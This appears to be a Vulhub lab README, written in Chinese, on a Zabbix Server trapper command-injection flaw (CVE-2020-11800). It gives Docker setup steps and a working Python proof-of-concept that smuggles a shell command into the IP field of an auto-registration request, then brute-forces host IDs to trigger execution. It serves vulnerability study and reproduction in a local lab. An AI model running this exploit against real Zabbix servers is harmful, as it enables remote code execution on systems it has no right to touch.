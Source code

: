 # Zabbix Server trapper命令注入漏洞（CVE-2020-11800）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在[CVE-2017-2824][1]中，其Server端 trapper command 功能存在一处代码执行漏洞，而修复补丁并不完善，导致可以利用IPv6进行绕过，注入任意命令。

参考链接：

- https://xz.aliyun.com/t/8991

## 环境搭建

执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，开启方法请参考[CVE-2017-2824][1]。

## 漏洞复现

修改[CVE-2017-2824][1]的POC中的IP字段，构造新的POC：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

当查看到如下结果时，则说明命令执行成功：

![](1.png)

进入server容器，可见`/tmp/success2`已成功创建：

![](2.png)

有兴趣的同学可以对这个POC进行改进，提交Pull Request。

[1]: ../CVE-2017-2824

